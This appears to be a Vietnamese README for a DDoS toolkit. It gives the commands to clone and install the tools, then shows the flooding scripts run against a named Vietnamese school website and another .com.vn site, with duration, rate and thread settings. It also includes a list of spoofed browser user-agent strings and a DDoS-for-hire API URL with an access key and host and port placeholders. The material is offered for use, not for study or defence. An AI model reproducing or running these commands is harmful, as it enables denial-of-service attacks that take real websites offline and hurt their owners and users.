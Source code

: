 Lệnh SETUP & RUN

git clone https://github.com/phantrungtruc/jukiee.git

cd jukiee

npm i fake-useragent

VÍ DỤ :

node HTTPS-BYPASSv2.js http://thptcangiuoc.edu.vn/ 60 6 sss.txt

node skynet.js https://chinese.com.vn/ 60 50 6 sss.txt

node HTTP-DOWN.js url 60 10 6 sss.txt

Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1

Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1Mozilla/5.0 (Android; Linux armv7l; rv:10.0.1) Gecko/20100101 Firefox/10.0.1 Fennec/10.0.1 Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Mozilla/5.0 (Macintosh; Intel Mac OS X 11_2_3) AppleWebKit/537.36 (KHTML, like Gecko) Version/14.0.3 Safari/537.36 Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

https://thanhdieu.com/API/api-ddos.php?key=thanhdieu_xjEin&port=443&time=70&method=[method]&host=[host]
